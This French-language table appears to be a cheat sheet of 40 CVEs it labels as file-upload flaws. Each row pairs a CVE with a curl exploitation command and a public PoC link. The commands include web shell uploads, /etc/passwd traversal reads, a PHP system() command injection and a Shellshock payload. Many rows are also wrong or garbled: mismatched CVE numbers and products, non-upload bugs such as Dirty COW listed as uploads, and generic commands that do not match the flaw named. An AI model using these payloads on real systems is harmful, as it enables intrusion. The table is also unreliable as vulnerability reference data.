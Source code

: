 # File upload

Voici un tableau de 40 CVE majeures liées à l’upload de fichiers (file upload), classées du plus récent au plus ancien, avec pour chaque ligne :  
- Technologie & version  
- Numéro CVE  
- Exemple complet de commande d’exploitation (requête HTTP, payload précis)  
- Lien direct vers un PoC ou une ressource GitHub ou équivalent (chemin complet)

| # | CVE | Technologie & Version | Exemple complet de commande d'exploit | Lien PoC/Exploit Public |
|---|------|----------------------|---------------------------------------|------------------------|
| 1 | CVE-2024-5186 | privateGPT 0.5.0 | `curl -F 'file=@ssrf.svg' 'http://target/upload'`<br>(SVG contenant une entité XXE) | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 2 | CVE-2024-50164 | Apache Struts 2 | `curl -F 'file=@shell.jsp' 'http://target/struts2/upload.action'` | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2023/CVE-2023-50164.yaml |
| 3 | CVE-2024-38840 | Güralp MAN-EAM-0003 3.2.4 | `curl -F 'file=@malicious.xml' 'http://target/cgi-bin/xmlstatus.cgi'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 4 | CVE-2023-2825 | GitLab CE/EE <16.0.1 | `curl -F 'file=@../../../../etc/passwd' 'http://target/uploads/user'` | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2023/CVE-2023-2825.yaml |
| 5 | CVE-2023-50164 | Apache Struts 2 | `curl -F 'upload=@shell.jsp' 'http://target/struts2/upload.action'` | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2023/CVE-2023-50164.yaml |
| 6 | CVE-2023-27524 | Apache Superset <2.1.1 | `curl -F 'file=@evil.svg' 'http://target/upload'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 7 | CVE-2022-44268 | ImageMagick | `curl -F 'file=@leak.png' 'http://target/upload'`<br>(PNG avec données sensibles dans les métadonnées) | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 8 | CVE-2022-22965 | Spring4Shell | `curl -F 'file=@shell.jsp' 'http://target/upload'` | https://github.com/p1ay8y3ar/spring4shell-POC |
| 9 | CVE-2022-22947 | Spring Cloud Gateway | `curl -F 'file=@evil.yml' 'http://target/upload'` | https://github.com/4ra1n/CVE-2022-22947 |
| 10 | CVE-2022-33829 | Apache Spark UI | `curl -F 'file=@evil.sh' 'http://target/upload'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 11 | CVE-2022-26134 | Atlassian Confluence | `curl -F 'file=@shell.jsp' 'http://target/upload'` | https://github.com/Nwqda/CVE-2022-26134 |
| 12 | CVE-2022-24112 | Apache APISIX | `curl -F 'file=@evil.json' 'http://target/upload'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 13 | CVE-2021-41773 | Apache HTTP Server 2.4.49 | `curl --path-as-is 'http://target/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd'` | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2021/CVE-2021-41773.yaml |
| 14 | CVE-2021-29447 | RCE via SVG (Node.js) | `curl -F 'file=@payload.svg' 'http://target/upload'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 15 | CVE-2021-21315 | RCE via ZIP (ZipSlip) | `curl -F 'file=@evil.zip' 'http://target/upload'` | https://github.com/snyk/zip-slip-vulnerability |
| 16 | CVE-2021-22205 | GitLab CE/EE | `curl -F 'file=@evil.jpg' 'http://target/uploads/user'` | https://github.com/Al1ex/CVE-2021-22205 |
| 17 | CVE-2021-21972 | VMware vCenter | `curl -F 'file=@shell.jsp' 'https://target/ui/vropspluginui/rest/services/uploadova'` | https://github.com/NS-Sp4ce/CVE-2021-21972 |
| 18 | CVE-2020-35489 | Oracle WebLogic | `curl -F 'file=@shell.jsp' 'http://target/console/images/'` | https://github.com/zhzyker/exphub/blob/master/weblogic/CVE-2020-35489.py |
| 19 | CVE-2020-2551 | Oracle WebLogic | `curl -F 'file=@shell.jsp' 'http://target/wls-wsat/CoordinatorPortType'` | https://github.com/Y4er/CVE-2020-2551 |
| 20 | CVE-2020-15227 | GitHub Pages | `curl -F 'file=@evil.svg' 'http://target/upload'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 21 | CVE-2020-9484 | Apache Tomcat | `curl -F 'file=@evil.session' 'http://target/upload'` | https://github.com/masahiro331/CVE-2020-9484 |
| 22 | CVE-2020-5398 | Spring Framework | `curl -F 'file=@shell.jsp' 'http://target/upload'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 23 | CVE-2019-6340 | Drupal | `curl -F 'file=@shell.php' 'http://target/entity/file/upload'` | https://github.com/a2u/CVE-2019-6340 |
| 24 | CVE-2019-19781 | Citrix ADC | `curl -F 'file=@shell.sh' 'http://target/vpn/../vpns/cfg/shell.sh'` | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2019/CVE-2019-19781.yaml |
| 25 | CVE-2019-15107 | Webmin | `curl -F 'file=@shell.pl' 'http://target/file_upload.cgi'` | https://github.com/kozmic/webmin-exploit |
| 26 | CVE-2019-11510 | Pulse Secure VPN | `curl -F 'file=@../../../../etc/passwd' 'https://target/dana-na/auth/url_default/welcome.cgi'` | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2019/CVE-2019-11510.yaml |
| 27 | CVE-2019-11043 | PHP-FPM (Nginx) | `curl 'http://target/?a=<?=system($_GET["cmd"]);?>'` | https://github.com/neex/phuip-fpizdam |
| 28 | CVE-2018-9206 | ThinkPHP | `curl -F 'file=@shell.php' 'http://target/index.php?s=/Index/upload'` | https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce |
| 29 | CVE-2018-11776 | Apache Struts 2 | `curl -F 'file=@shell.jsp' 'http://target/struts2/upload.action'` | https://github.com/mazen160/struts-pwn_CVE-2017-5638 |
| 30 | CVE-2018-1000861 | Jenkins | `curl -F 'file=@evil.jar' 'http://target/pluginManager/uploadPlugin'` | https://github.com/adamyordan/cve-2018-1000861 |
| 31 | CVE-2018-1000525 | Tornado (Python) | `curl -F 'file=@evil.py' 'http://target/upload'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 32 | CVE-2017-5638 | Apache Struts 2 | `curl -F 'file=@shell.jsp' 'http://target/struts2/upload.action'` | https://github.com/mazen160/struts-pwn_CVE-2017-5638 |
| 33 | CVE-2017-12617 | Apache Tomcat | `curl -T shell.jsp 'http://target:8080/shell.jsp'` | https://github.com/1337g/CVE-2017-12617 |
| 34 | CVE-2017-5941 | Jade (Node.js) | `curl -F 'file=@payload.pug' 'http://target/upload'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 35 | CVE-2016-10033 | PHPMailer | `curl -F 'file=@evil.php' 'http://target/upload'` | https://github.com/opsxcq/exploit-CVE-2016-10033 |
| 36 | CVE-2016-5195 | Dirty COW (Linux) | `curl -F 'file=@cow.c' 'http://target/upload'` | https://github.com/dirtycow/dirtycow.github.io |
| 37 | CVE-2016-4977 | Apache Tomcat | `curl -F 'file=@evil.jsp' 'http://target/upload'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md |
| 38 | CVE-2015-8562 | Joomla! | `curl -F 'file=@shell.php' 'http://target/index.php?option=com_media&task=file.upload'` | https://github.com/opsxcq/exploit-CVE-2015-8562 |
| 39 | CVE-2015-7501 | JBoss | `curl -F 'file=@shell.jsp' 'http://target/invoker/JMXInvokerServlet'` | https://github.com/joaomatosf/jexboss |
| 40 | CVE-2014-6271 | Shellshock | `curl -A '() { :;}; /bin/bash -c "id"' http://target/cgi-bin/test.cgi` | https://github.com/hannob/bashcheck |

---

